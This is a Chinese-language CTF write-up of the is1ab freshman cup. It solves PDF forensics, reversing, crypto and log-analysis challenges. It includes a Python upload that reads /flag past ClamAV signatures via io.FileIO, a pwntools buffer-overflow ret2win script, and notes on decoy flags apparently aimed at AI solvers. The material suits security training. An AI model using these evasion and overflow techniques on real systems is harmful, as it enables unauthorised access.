去年也曾參加過 is1ab 新生盃，今年進入北科資訊安全研究所並加入實驗室後再次參與，最後拿到第 3 名。以下記錄這次比賽的解題過程。



## A Quiet Game

這題提供一個 HTML 檔案以及 PGN 檔案


開啟 HTML 會發現是 Chess，而 PGN 檔案是用來記錄棋盤


這題卡了有點久，因此開 Hint 參考

```
Hint 1: 比起移動哪一顆棋子，或許可以注意棋子最後落在哪裡。
Hint 2: 棋格名稱可以拆成字母和數字。
Hint 3: 偶數 = 0，奇數 = 1。
```

回到棋譜 a-h 轉為 0-7，1-8 轉為 0-7

```
1.  d3    c5    -> d3=01  c5=00
2.  Be3   e5    -> e3=00  e5=00
3.  a3    Nf6   -> a3=00  f6=11
4.  g4    Bd6   -> g4=10  d6=11
5.  f3    h5    -> f3=01  h5=01
6.  Nc3   b5    -> c3=00  b5=01
7.  Nb1   Qc7   -> b1=01  c7=00
8.  b3    Rh6   -> b3=01  h6=11
9.  Bxc5  Be7   -> c5=00  e7=00
10. Be3   Qb7   -> e3=00  b7=01
11. Bxa7  Bxa3  -> a7=00  a3=00
12. c4    e4    -> c4=10  e4=10
13. h3    Bb2   -> h3=01  b2=11
14. Be3   d5    -> e3=00  d5=01
15. gxh5  Rh8   -> h5=01  h8=11 
16. cxd5  Bxh3  -> d5=01  h3=01
17. Rxh3  Nc6   -> h3=01  c6=10
18. Qc2   Qd7   -> c2=10  d7=01
19. Qd1   Qe6   -> d1=01  e6=10
20. Rh1   Nxh5  -> h1=01  h5=01
21. Rh3   Nf6   -> h3=01  f6=11
22. Rh1   Be5   -> h1=01  e5=00
23. Bh3   Nd7   -> h3=01  d7=01
24. Bd2   Rd8   -> d2=11  d8=11
25. Bf1   g6    -> f1=01  g6=10
26. Na3   Rg8   -> a3=00  g8=10
27. Rh5   Qg4   -> h5=01  g4=10
28. Nc4   f5    -> c4=10  f5=01
29. Bh3   Bf6   -> h3=01  f6=11
30. Bf1   Be5   -> f1=01  e5=00
31. Nh3   Nb6   -> h3=01  b6=11
32. Bc1   Kf8   -> c1=00  f8=11
33. Kf2   Kf7   -> f2=11  f7=01
34. Rb1   Bg7   -> b1=01  g7=00
35. Bd2   Nd7   -> d2=11  d7=01
36. Qc1   Bh8   -> c1=00  h8=11
```

將此 Binary 專為 String，可以看到有 `quiet_bits` 字串，提交 Flag


Flag: `is1abCTF{quiet_bits}`

## Authenticator



先執行程式，輸入後吐出 Incorrect，如題目說的會去驗證 Flag


先查看 string，就可以看到一些特別的字串，尤其有一段字串
```
Input:
Incorrect!
Correct!
CCJ+a+Huut3wYxwY5/FgnWHmVD60vxFXmvsjqbveRobaUS==
```

IDA 也找到對應位置，看起來是經過 Base64 編過碼


再往上看找到 Base64 編碼的行為


往下分析看到疑似 ROT13


先丟到 Cyberchef 解解看，發現不太對，還有其他沒處理

發現 Base64 不是像平常看到直接用字串去存 Table，有另外處理，也找到對應的程式碼位置，可以透過動態或是 Python 直接解


```python
b64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

table = "".join(b64[(5 + 17*i) & 0x3f] for i in range(64))

print(table) #FWn4Jar8NevARizEVm3IZq7Mdu/QhyDUl2HYp6Lct+PgxCTk1GXo5Kbs9OfwBSj0
```

解出 `FWn4Jar8NevARizEVm3IZq7Mdu/QhyDUl2HYp6Lct+PgxCTk1GXo5Kbs9OfwBSj0` Base64 Table


```python
data = bytes.fromhex(
    "aaa0690a97dc72b4be9affa6d1af681447ce4db97f36ff7538debb6333463f6cc288"
)

state = 0x1337BEEF
out = b""

for b in data:
    state = (state * 1103515245 + 12345) & 0xffffffff
    out += bytes([b ^ ((state >> 16) & 0xff)])

print(out.decode())
```

最後看到 Base64 前面還有一段


整理一下，發現是 LCG + XOR



跑同樣邏輯的 Python 取得 XOR
```python
state = 0x1337BEEF
key = []

for _ in range(34):
    state = (state * 1103515245 + 12345) & 0xffffffff
    key.append(f"{(state >> 16) & 0xff:02x}")

print("".join(key)) # c3d3586bf59f26f2c5ef91c2e1f01c7c7491218d0c01a0064cedcb3c55774d1ff5f5
```
拿到 `c3d3586bf59f26f2c5ef91c2e1f01c7c7491218d0c01a0064cedcb3c55774d1ff5f5`

丟這些到 CyberChef 還原，拿到 Flag



Flag: `is1abCTF{und0_th3_l4s7_st3p_f1rs7}`

## Baby ClamAV

上傳 txt php 檔案時，都會回 `When in Rome, do as the Romans do.`，可能要我們上傳他所要的副檔名


`curl -i` 觀察 Header，出現 Werkzeug 以及 Python，上網查知道 Werkzeug 常用來建構 Flask 框架，並出現 Python，因此可以試試上傳 `.py` 檔案


試試上傳會印出 Hello World 的 Python
```python
print("Hello, World!")
```

隨後印出


因此看能不能 ls 一下根目錄檔案，看到 Flag 檔案
```python
import os

files = os.listdir("/")

for file in files:
    print(file)
```



印出 Flag 
```python
print(open("/flag").read())
```
會秀出 `Webshell.PY.Builtin_Open.UNOFFICIAL FOUND` ，看來是被防毒給擋掉了


Read Text 也不行
```python
from pathlib import Path

print(Path("/flag").read_text())
```

觀察與測試後發現會去擋 open、pathlib.read_text、linecache、fileinput 等行為

因此換 `io.FileIO("/flag")` 可以成功
```python
import io

f = io.FileIO("/flag")
print(f.readall().decode())
```

成功上傳


點擊檔案路徑執行 py，成功印出 Flag


Flag: `is1abCTF{d0n7_l37_A1_r3pl4c3_y0ur_br41n_1db0cee97df1110f1caf5c39a61ec026}`

## Bad Random



先查看 `chall.py`，step 函式代表 `x = (1103 * x + 4271) % 65536`，可以知道是 LCG，而透過 `x >> 8`  與 `x & 0xff` 將這 16 bit 高 8 bit XOR 低 8 bit
```python
A = 1103
C = 4271
MOD = 1 << 16

def step(x):
    return (A * x + C) % MOD

def output(x):
    return ((x >> 8) ^ (x & 0xff)) & 0xff
```


題目提供三個連續輸出 `[12, 248, 31]`
```
leak = [12, 248, 31]
cipher = dcc6ee790ec69e7b34eefac94e8c0197f09d4fecc4bae7ae051451190f960a1938f4f3dce119a91194002d
```

因為只 65536 種可能，因此有辦法沒舉出原始 state，目標是出現連續這三個數字的 state，用 AI 了一段 Python 去找

```python
A = 1103
C = 4271
MOD = 1 << 16

def step(x):
    return (A * x + C) % MOD

def output(x):
    return ((x >> 8) ^ (x & 0xff)) & 0xff

for state in range(65536):
    x = state

    # 第一個 leak
    if output(x) != 12:
        continue

    # 更新 state
    x = step(x)

    # 第二個 leak
    if output(x) != 248:
        continue

    # 再更新
    x = step(x)

    # 第三個 leak
    if output(x) != 31:
        continue

    print("找到:", state)
```
執行後拿到 11810

再透過這個 State，我們可以去預測下一次的輸出，我同樣給 AI 寫腳本
```python
A = 1103
C = 4271
MOD = 1 << 16

state = 11810

cipher = bytes.fromhex(
    "dcc6ee790ec69e7b34eefac94e8c0197f09d4fecc4bae7ae051451190f960a1938f4f3dce119a91194002d"
)

def step(x):
    return (A * x + C) % MOD

def output(x):
    return ((x >> 8) ^ (x & 0xff)) & 0xff

# 前三個 output 已經是 leak，所以先往後走三次
x = state
for _ in range(3):
    x = step(x)

plaintext = bytearray()

for c in cipher:
    k = output(x)
    plaintext.append(c ^ k)
    x = step(x)

print(plaintext.decode())
```

腳本輸出下一次的 output 為 `is1abCTF{lcg_outputs_can_betray_the_future}`

Flag: `is1abCTF{lcg_outputs_can_betray_the_future}`

## Contract Tampering



這題題目提供一個 PDF


查看 PDF 的 `%%EOF` 出現兩個

並出現 `/Prev 86051`，可以推測有兩個版本，因此我們可以把 PDF 最新版刪掉，僅保留舊的版本並儲存


可以看到金額比原本少 10 倍，並在最後顯示 Flag


Flag: `is1abCTF{1ncr3m3nt4l_upd4t3_g0tch4}`


## Data Exfil Report



這題會拿到一個 PDF，包含一些考試題目

先看一下 Binary 找找看關鍵字 is1ab，可以看到有個 Endpoint

實際打這個 Endpoint，會發現是 Fake Flag

查看 P01-P11 都有類似的 Fake Flag，可能用來誘導 AI


看回 PDF 檔案本身找到有 Attachment，包含一個 ZIP



發現要密碼才能解壓縮


可以透過 RUPS 工具找到 PRF 中的 Object Stream


Stream 結尾包含一個 PDF 註解寫 `is1ab`，這可能就是 ZIP 的密碼


用密碼 `is1ab` 解壓縮檔案拿到一個 txt 檔案


查看此 txt 包含 Flag


Flag: `is1abCTF{0rph4n_0bj3cts_n3v3r_d13}`

## Dual Identity

題目說有一個 PDF 可以透過解壓縮拿文字檔，馬上試試


丟去解壓縮，發現有一個 txt


裡面給一半的 Flag，提示說要再深入看 PDF


用 RUPS 工具，看到 Object `9 0 R` 這個 Layer，在 PDF 預設顯示設定下是關閉的


使用線上工具 `https://devtoolkit.io/pdf/pdf-ocg-layers` 把 Layer 打開


下載下 Hidden Layer 被開啟的檔案，可以看到剩餘的 Flag


Flag: `is1abCTF{du4l_1d3nt1ty_p0lygl0t}`

## Encrypted Exfil

這一題提供一個 PDF 以及 PCAP 檔案


開啟 PDF 包含一些內容，看起來是一些提示，並提供 Fake Flag


用 RUPS 查看 PDF 結構，可以看到確實有 /SubmitForm 以及 Domain，符合 PDF 描述


看回 PCAP，可以看到有幾筆 POST 到此 Domain


其中第三筆 Access Code 為此題的 Flag


Flag: `is1abCTF{pdf3x_cbc_m4ll34b1l1ty}`

## ER_fashion

這題提供一個 osz 檔案


OSZ 檔案為節奏遊戲 `osu!` 用來儲存關卡圖譜的壓縮檔案


匯入後可以遊玩


可以解壓縮 OSZ 檔案查看 HitObject，可以看到會有包含位置、出現秒數、圓圈＋New Combo，因為可以在遊玩時重複出現 NewCombo，因此推測是摩斯密碼


把這個給 AI 幫我去轉換成摩斯密碼的 Flag

Flag: `is1abCTF{CHARLOTTE_HEALING_SONG_IS_AWESOME}`

## Ghost Pages

這題提供一題 PDF


點開 PDF 裡面關於一些料理的步驟


回到 PDF 查看 Binary 可以看到兩段 `%%EOF`，可知應該也有過去的版本 `/Prev 102961`


拿到過去的版本可以第二頁，也就是題目提及的幽靈頁，包含此提前半部的 Flag `is1abCTF{gh0`


接下來繼續查看 PDF，卡了一陣子轉用 Didier Stevens 的 `pdf-parser.py`，可以看到舊的版本包含額外的兩個 ArchiveRecord 10 與 14


用 `pdf-parser.py -o 10` 把 10 dump 出拿到 `Recovered token: st_p4g3s`，也就是 Flag 的後續


再來把 14 dump 出，感覺又是要騙 AI 的 Flag，嘗試後也錯誤


又花了一點時間，回頭檢查其他 stream，Page Tree 可以看到第一頁 `3 0 obj` 的 `/Contents` 指向 `4 0 obj`，使用 `/FlateDecode` 壓縮，因此將 `4 0 obj` 解壓後 dump 出來檢查。


用 `python pdf-parser.py -o 4 -f -d dump4.bin seized_laptop.pdf` 把 4 dump 出，出現四組組合，嘗試 `_n3v3r_d13}` 正確


Flag: `is1abCTF{gh0st_p4g3s_n3v3r_d13}`

## Hidden Layer

這題提供一個 EXE，執行後會等待輸入，輸入錯誤會印出 `Error!`

丟進 IDA 觀察字串，可以看到 `.is1ab`、`Correct`、`Error!`

一開始沒有直接看到驗證邏輯，追 `.is1ab` 的 xref 會發現程式會自己找 PE section，找到 `.is1ab` 後把整段每個 byte XOR `0x1A`

```c
if ( !memcmp(section, ".is1ab", 6) ) {
    VirtualProtect(addr, size, PAGE_EXECUTE_READWRITE, &old);
    for ( i = 0; i < size; i++ )
        addr[i] ^= 0x1A;
    VirtualProtect(addr, size, PAGE_EXECUTE_READ, &old);
    FlushInstructionCache(...);
    return loc_140004175(...);
}
```

因此真正的程式碼藏在 `.is1ab` 裡面，靜態看原始檔會是加密狀態。手動把 `.is1ab` section 解開後，IDA 就可以正確反組譯。

`.is1ab` 的 section 資訊如下：

```
VirtualAddress: 0x4000
VirtualSize   : 0x368
RawOffset     : 0x2c00
RawSize       : 0x400
```

所以把 raw offset `0x2c00` 開始的 `0x368` bytes XOR `0x1A` 即可。

解開後主邏輯在 `0x140004175`，會先讀入最多 `0x12` bytes，再把結尾的 `\r` / `\n` 去掉。接著檢查長度必須為 16：

```c
ReadFile(stdin, buf, 0x12, &read_len, 0);
trim_crlf(buf, &read_len);

if ( check_len(read_len, &v) && v == 0xA17C3E29 ) {
    Buffer = buf;
    ...
}
```

`check_len` 其實很單純，只是把長度 16 包裝成比較混亂的判斷：

```c
if ( len == 16 )
    *out = 0xA17C3E29;
else
    *out = 0x52DABEF6;
```

後面比較麻煩的是它沒有直接呼叫 transform，而是先註冊多個 `VectoredExceptionHandler`，再故意觸發 `int3`、`ud2`、除以零等 exception。

```c
AddVectoredExceptionHandler(0, handler_1);
AddVectoredExceptionHandler(0, handler_2);
AddVectoredExceptionHandler(0, handler_3);
AddVectoredExceptionHandler(0, handler_4);
AddVectoredExceptionHandler(0, handler_5);
```

第一個 handler 會從 exception context 的 `RAX` 算出狀態：

```c
n = (RAX ^ (RAX >> 3)) & 7;
```

最後一個 handler 會把 `RIP` 改成事先存好的 `nullsub`，讓程式看起來像從 exception 中正常繼續執行。中間幾個 handler 則依照 exception code 和 `n` 的值去修改全域 `Buffer`。

整理後總共有四種 buffer 操作：

```c
// A
for (i = 0; i < 16; i++)
    buf[i] ^= i ^ (i < 8 ? 0xAD : 0xB2);

// B
for (i = 0; i < 16; i += 2)
    swap(buf[i], buf[i + 1]);

// C
for (i = 0; i < 15; i++)
    buf[i + 1] ^= buf[i];

// D
for (i = 0; i < 16; i++)
    buf[i] = rol8(buf[i], 4);
```

接著照主函式的 exception 觸發順序手動推狀態：

```
int3 0x13579B40   -> A, B
ud2  0x2468AC42   -> A
int3 0x31415941   -> C
div0 0x27182846   -> B
ud2  0xC0FFEE45   -> D, B, A
```

因此輸入被轉換的順序是：

```
A -> B -> A -> C -> B -> D -> B -> A
```

最後程式拿轉換後的 16 bytes 和兩個 qword 常數比較：

```asm
mov rax, 3D691E290A080D8Ah
mov rax, 0E9FB3FDB4B69FC5Ah
```

注意是 little endian，所以目標 bytes 是：

```
8a 0d 08 0a 29 1e 69 3d 5a fc 69 4b db 3f fb e9
```

因為 A、B、D 都是自己的反操作，C 只要從後面往前 XOR 回去即可，所以把整個順序反過來還原：

```python
target = bytes.fromhex("8a0d080a291e693d5afc694bdb3ffbe9")

def A(buf):
    return bytes(b ^ (i ^ (0xAD if i < 8 else 0xB2)) for i, b in enumerate(buf))

def B(buf):
    buf = bytearray(buf)
    for i in range(0, 16, 2):
        buf[i], buf[i + 1] = buf[i + 1], buf[i]
    return bytes(buf)

def inv_C(buf):
    buf = bytearray(buf)
    for i in range(14, -1, -1):
        buf[i + 1] ^= buf[i]
    return bytes(buf)

def D(buf):
    return bytes(((b << 4) & 0xff) | (b >> 4) for b in buf)

buf = target
for f in [A, B, D, B, inv_C, A, B, A]:
    buf = f(buf)

print(buf)
```

得到正確輸入：

```
is1abCTF{v3h_x0}
```

實際執行原始程式驗證：

```
PS> "is1abCTF{v3h_x0}" | .\challenge.exe
Correct
```

Flag: `is1abCTF{v3h_x0}`

## I Can't Read This

這題提供一個 EXE 與 BIN，一個 Loader 與一個 Payload，看來是會 Loader 解密 Payload


執行 EXE，會要我們輸入 Key


IDA 分析 EXE，會發現有 VirtualAlloc Payload，因此觀察一下 `payload.bin`


觀察一下發現開頭是 MZ Header，而應該要 0x00 的地方卻是 0x5C，看來是被 XOR 過


回 IDA 觀察一下，也發現確實有 XOR 0x5C，除了前面的 MZ 兩個 Byte 不參與 XOR


成功還原 Payload.bin
再回

分析 loader.exe，可以發現會去呼叫 `Vertify` Export


查看 v26 會發現會傳入 Loader 產生的資料


繼續分析 `Verify`，Key 必須剛好為 16 Bytes


這段中間有點困難，因此給 AI 協助分析，會發現 Key 會經過 XOR、ROR 與加法後，再與 `byte_180002000` 中的固定資料比較，因此將運算反向還原即可取得正確 Key
請 AI 寫 Python 腳本
```python
context = bytes.fromhex(
    "f2 04 6c 56 68 38 30 77 "
    "39 d1 c0 53 1a 28 c6 41"
)

target = bytes.fromhex(
    "c9 dc 44 53 df 73 7a a3 "
    "65 50 56 14 5e 25 f9 9e"
)

hash_bytes = bytes.fromhex("15 33 5a 0b")


def rol8(x, n):
    return ((x << n) | (x >> (8 - n))) & 0xff


key = ""

for i in range(16):
    x = (target[i] - hash_bytes[i % 4]) & 0xff
    x = rol8(x, 5)
    x ^= context[i]

    key += chr(x)

print(key)
```
得到 Key = `d11_104d3r_r3v53`

輸入 Key `d11_104d3r_r3v53`，就可以拿到 Flag


Flag: `is1abCTF{1t_0nly_3x1sts_wh3n_1t_runs}`

## Lost in Translation

題目提供一個 PDF


此 PDF 為一份購物清單

可以稍微看一下 Object 看到 `/ToUnicode` 的 Stream 有一段蠻長的 Text


可以看到有一段看起來會轉成 Unicode 的 String


透過 CyberChef From Hex 轉成 String，可以看到一些 Flag


用 pdftotext，可以看到這些字串，嘗試  `is1abCTF{t0Un1c0d3_m4pp1ng_l13s}` 正確


Flag: `is1abCTF{t0Un1c0d3_m4pp1ng_l13s}`

## Opcode Roulette

這題提供一個 ELF 檔案


執行後，會去讀取輸入，並輸出 Accepted 或 Denied


開啟 IDA 分析，Export Start 找到 Main


需要把這段 .nvm 的 1400 bytes 解開


會經過某個 PRNG/XOR 解密


接下來真的好難，給 AI 幫我做 Opcode 還原

把 `.nvm` 抽出來
```shell
objcopy --dump-section .nvm=nvm.enc challenge
```


IDA 解密 Loop 轉為 Python 解
```python
from pathlib import Path

enc = Path("nvm.enc").read_bytes()

state = 0x9E3779B9
vm = bytearray()

for i, b in enumerate(enc):
    x = (state + i + 0x7F4A7C15) & 0xffffffff

    v7 = (x ^ ((x << 13) & 0xffffffff)) & 0xffffffff

    t = ((v7 >> 17) ^ v7) & 0xffffffff
    state = (((t << 5) & 0xffffffff) ^ t) & 0xffffffff

    key = (state >> (8 * (i & 3))) & 0xff

    vm.append(b ^ key)

Path("vm.bin").write_bytes(vm)
```


| Opcode | 意義                     |
| ------ | ---------------------- |
| `91`   | `R[a] = input[b]`      |
| `52`   | `R[a] ^= b`            |
| `A6`   | `R[a] += b`            |
| `1B`   | `R[a] = ROL8(R[a], b)` |
| `C3`   | `R[a] ^= R[b]`         |
| `24`   | `swap(R[a], R[b])`     |
| `7A`   | 特殊 MIX                 |
| `6D`   | `cmp R[a], b`          |
| `E8`   | conditional jump       |
| `F0`   | exit                   |

把解密後的 VM 指令整理出來，發現前面會先把我們輸入的 27 bytes 輸入打亂放進 Register，中間做 XOR、ADD、ROL、SWAP、MIX 等運算

最後 `CMP` 要求的 Register 值開始，把 VM 指令倒著執行

把 Register 排回原本的輸入位置，就能還原 Flag

Flag: `is1abCTF{vm5_4r3_t1ny_cpu5}`

## Resonance Archive

這題提供三個檔案，ELF + dat + rpl


執行後會出現 replay ended，可能會跑一些 replay


開啟 IDA 分析，兩個檔案都會先檢查 Header


找到輸出往前追


找到 rpl 格式的檢查


花蠻多時間還是有點不太清楚格式，因此靠 AI 了，可以把 Replay Header 整理成

```
Offset  Size  用途
0x00    7     "NXRPL2\x00"
0x07    1     Version
0x08    2     Event 數量
0x0A    2     每筆 Event 大小
0x0C    4     固定 Magic 0x4E585232
0x10    4     Header Checksum
```

後面可以看到 Event 主要有四種


- `0x31`：移動
- `0x72`：拿 Shard
- `0xA4`：切 Relay
- `0xD0`：Sync

再往下看 Sync 的判斷，可以看到最後會檢查 Room、Shard、Relay、Event 數量和 chain


根據 IDA 裡讀取 `world.dat` 的部分，把每個 Room 的連接方式、Shard 和 Relay 位置整理出來


整理出每一步 replay 都要照前一個 chain 重新計算

把這些條件模擬，搜尋 18 個 Event 且能 Sync 的路徑，產生新的 `.rpl`，如下
```
0  0x31 1
1  0x31 2
2  0x31 2
3  0xa4 1
4  0x31 3
5  0x31 0
6  0xa4 0
7  0x31 2
8  0x72 0
9  0x31 0
10 0x31 1
11 0x31 1
12 0x31 0
13 0x72 1
14 0x31 2
15 0x72 2
16 0x31 2
17 0xd0 0
```


Flag: `is1abCTF{r3pl4y_th3_p4st_but_m0d3l_th3_st4t3}`

## Shadow Contract

這題提供一個 PDF


點開可以看到是資安社的社團章程


查看檔案，會發現有兩段 `%%EOF`，題目也有提到此檔案不適原本的，因此把後半段新版本刪掉，留下舊版本


重新開啟會看到有通關密語 Flag


Flag: `is1abCTF{sh4d0w_4tt4ck_1s_r34l}`

## Slot machine


題目提供一個拉霸遊戲


可以選 Spin、Bet、推換離場、離開


可以調整 Bet 並 Spin


3 的會把名稱跟金額顯示


開啟 IDA 分析，查看 Main


在 case 3 的 `sign_board` 這個函式裡可以看到程式準備 64 Bytes 的空間來存放輸入，但是下面的 `read()` 卻可以讀入 256 Bytes。看來這可能就是可以 Buffer overflow 的位置


`buf` 開始到 Return Address 為 64 + 8 = 72 bytes，72 可以覆蓋 Return Address


而在翻一下 IDA，看到一個叫做 `jackpot_room()` 的函式，目標應該就是要想辦法跳來這邊


請 AI 幫我寫腳本
```python
from pwn import *

context.arch = "amd64"

p = process("./slot_machine")
# p = remote("HOST", PORT)

ret = 0x40101a
jackpot = 0x4022cc

payload = b"A" * 72
payload += p64(ret)
payload += p64(jackpot)

p.sendline()
p.sendline(b"3")
p.sendline(payload)

p.interactive()
```

成功取的 Flag

Flag: `is1abCTF{72eb24e7f88086e6e0504d04d6ec3a01}`

## Suspicious Attachment

題目提供一個 PDF


使用 RUPS 工具查看 PDF 結構，看到有 Action 行為


用 CyberChef 解碼這兩個 Base64 字串


而 Action 主要是執行 Alert 第二組字串變數 `_0x1cd`，此為真正的 Flag


Flag: `is1abCTF{pdf_js_1s_d4ng3r0us}`

## The Full Stack


這題一樣提供 PDF


PDF 是一張社團經費結算報告


查看 PDF info


用 pdftotext 把 PDF 文字抽出來，可以看到後半段的 Flag `_h1d3s_f0r3v3r}`


查看 Object，可以在 4 找到一串看似 Flag 的碎片 `CTF{n`


在 Object 找到剩下的碎片，有兩個 Marker `0_th1ng` 與 `0_wh3r3`，因此最終 Flag可能是 `CTF{n0th1ng_h1d3s_f0r3v3r}` 或 `CTF{n0_wh3r3_h1d3s_f0r3v3r}`


Flag: `CTF{n0th1ng_h1d3s_f0r3v3r}`

## Viewers Choice

這題提供一個 PDF


PDF 裡面有一些梗，然後說用不同 Viewer 會有不同內容


用 pdfinfo 查看 PDF


用 pdf-parser 查看 Object，發現有重複兩個 4，這可能就是會有兩版本的原因


再去用 `pdf-parser.py suspicious_meme.pdf -o 4` 看 object


透過 -d 把兩個 dump 出，可以嘗試 Flag，`is1abCTF{p4rs3r_d1ff3r3nt14l_ftw}` 正確


Flag: `is1abCTF{p4rs3r_d1ff3r3nt14l_ftw}`

## Welcome-論文報告

這題拿到一個 Google Form 要我們填寫


可以在表單看到要我們收信拿 Flag


填完表單看到會寄信給自己

查看原始郵件內容，就可以看到 Flag


Flag: `is1abCTF{ph3w_4lm057_m1553d_7h3_d34dl1n3_f0r_m41l1n6_7h3_l3773r}`

## 好消息門票有了，壞消息是我家的 -1


這題提供一個 ZIP，包含一些 Log 提供我們分析

查 `systemd-timesyncd` 檔案，發現有時間異常，從 Aug 27 突然變成 Jun 01，因此攻擊時間可能就是 `Aug 27 11:01:29` 這個時間點


駭客可能透過切換 System Time 去改檔案時菸，輸入對應 Flag 格式


Flag: `is1abCTF{Aug 27 11:01:29}`

## 好消息門票有了，壞消息是我家的 -2

這題延續 `好消息門票有了，壞消息是我家的 -1` 題目我們需要找到經過時間變造的檔案

可以在 `stat_all.txt` 看到檔案主要都 2026 的檔案，但除了 `/home/bali/.viminfo` 以及 `/home/bali/deep-financial-research/subskills/dcf-valuation/route.py
` 出現 2022/01 的 Birth Date


將 route.py 輸入 Flag 正確

Flag: `is1abCTF{route.py}`
